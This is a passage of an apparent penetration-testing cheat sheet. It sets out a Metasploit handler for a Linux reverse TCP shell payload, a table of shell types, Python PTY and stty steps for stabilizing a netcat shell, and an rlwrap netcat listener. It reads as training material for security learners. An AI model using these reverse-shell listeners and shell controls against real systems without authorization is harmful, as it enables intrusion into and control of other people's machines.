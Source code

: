 ### Metasploit Listener
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x86/shell_reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

---

### Shell Types
| Type                  | Description                                |
|:---------------------|:--------------------------------------------|
| Reverse Shell          | Victim connects back to attacker             |
| Bind Shell             | Victim opens port, attacker connects in      |
| Interactive Shell      | Real-time user interaction                   |
| Non-Interactive Shell  | Runs preset commands or scripts              |

---

## Netcat Shell Stabilization

### Python PTY Upgrade
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Then:
- Background with `Ctrl+Z`
- Run:
  ```bash
  stty raw -echo; fg
  reset
  ```
- Restore settings
  ```bash
  export SHELL=bash
  export TERM=xterm-256color
  stty rows 38 columns 116
  ```

---

### rlwrap
Improves Netcat shell on Windows:
```bash
rlwrap nc -lvnp <port>
```

---